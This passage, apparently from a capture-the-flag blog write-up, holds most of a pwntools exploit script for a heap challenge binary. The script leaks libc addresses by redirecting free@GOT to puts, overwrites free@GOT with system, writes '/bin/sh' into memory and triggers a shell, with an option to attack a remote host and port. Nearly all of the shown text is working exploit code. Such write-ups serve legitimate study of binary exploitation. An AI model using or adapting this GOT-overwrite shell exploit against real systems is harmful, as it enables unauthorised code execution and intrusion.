     payload  = p32(0x8048490)
    # must restore newline char-corrupted .GOT pointers
    payload += p32(0x8048466) # getchar@plt+6 ; restore *getchar()
    payload += p32(0x8048476) # fgets@plt+6   ; restore *fgets()  
    
    heap(0,payload) # overwrite *free@got with puts@plt 
    
    ### TRIGGER LEAKS ###
    printf = u32(free(1,True)[:4])          # puts(0x804a00c)
    getchar = u32(free(2,True)[:4])         # puts(0x804a014)
    puts = u32(free(4,True)[:4])            # puts(0x804a020)  
    libc_start_main = u32(free(5,True)[:4]) # puts(0x804a024)  
    
    libc_base = libc_start_main-0x19990
    system = libc_base+0x40190

    log.success("printf@libc found at: "+hex(printf))           
    log.success("getchar@libc found at: "+hex(getchar))         
    log.success("puts@libc found at: "+hex(puts))     
    log.success("__libc_start_main found at: "+hex(libc_start_main)) 
    log.success("libc base found at: "+hex(libc_base))
    log.success("system@libc found at: "+hex(system))

    ### OVERWRITE free@GOT w/ system@libc  ###
    # system("/bin/sh"); payload
    payload = p32(0x804a010)  # keep free@GOT 
    payload  = p32(system)    # system@libc 
    payload += p32(0x8048466) # getchar@plt+6 # restore *getchar()
    payload += p32(0x8048476) # fgets@plt+6   # restore *fgets()
    
    heap(0,payload) # overwrite free@GOT ptr w/ system@libc
    log.success("free@GOT overwritten with system@libc")

    ### WRITE "/bin/sh\0" TO PTRS[] ###
    payload  = p32(0x804a010) # keep free@GOT
    payload += p32(0x804a0e8) # addr inside ptrs[] w/ "/bin/sh\0" string
    payload += "/bin/sh\0"     
    
    heap(3, payload)
    log.success('"/bin/sh" written to: 0x804a0e8')
  
    ### free(1) TO TRIGGER system("/bin/sh\0") ###
    log.indented("Spawning shell...") 
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline("1")
       
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/HouseOfEinherjar/OTA_challenge_of_the_month'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{%endhighlight %}
{% highlight bash%}
rh0gue@firenze:~/Documents/HouseOfEinherjar$ python solve.py 